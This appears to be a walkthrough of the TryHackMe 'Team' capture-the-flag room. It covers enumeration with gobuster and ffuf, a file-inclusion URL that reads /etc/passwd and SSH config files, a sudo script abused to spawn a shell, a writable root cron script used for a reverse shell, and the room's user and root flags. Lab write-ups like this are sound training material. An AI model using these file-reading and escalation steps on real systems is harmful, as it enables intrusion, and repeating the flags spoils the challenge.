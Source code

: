 # Team CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Team** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/teamcw). 
---
Using nmap to find open ports

![nmap](imgs/nmap.png "nmap")

Open ports `21 ftp`,`22 ssh` and `80 http`

```
gobuster dir -w /snap/seclists/current/Discovery/Web-Content/common.txt -u http://10.10.130.165   
```
No interesting directories

Adding team.thm to /etc/hosts
```
gobuster dir -w /snap/seclists/current/Discovery/Web-Content/common.txt -u http://team.thm
```

Gobuster found `robots.txt` with `dale` string 

Using ffuf to enumerate vhosts
```
ffuf -w /snap/seclists/current/Discovery/DNS/subdomains-top1million-20000.txt -u http://team.thm/ -H "Host: FUZZ.team.thm" -fs 11366
```
Editing /etc/hosts again

dev.team.thm



Possible file inclusion, changing URL to /etc/passwd as example


```
http://dev.team.thm/script.php?page=/etc/passwd
```
notable users `dale` and `gyles`

I tried diffrent common configuration files for FTP and SSH and found Dale `openSSH private key`

```
http://dev.team.thm/script.php?page=/etc/ssh/sshd_config
```

Login to ssh with a private key as dale, remember to `chmod 600` key

>
> User flag from `user.txt`: `THM{6Y0TXHz7c2d}`

now we can do

```
sudo -u gyles /home/gyles/admin_checks
```
We can exploit this file, in first input we can type anything, but in second we can type `bash` to spawn a shell as gyles, then we can use python3 to stabilize shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
In /opt there is interesting folder `admin_stuff` that contains `script.sh`

Now i check those files mentioned in script.sh

The main_backup.sh is writeable and executes as root

Now i edit main_backup to generate reverse shell as root, the script is run by cronjob every minute. **This privilage escalation stage could be done in various ways. **

>
> Root flag from `root.txt`: `THM{fhqbznavfonq}`
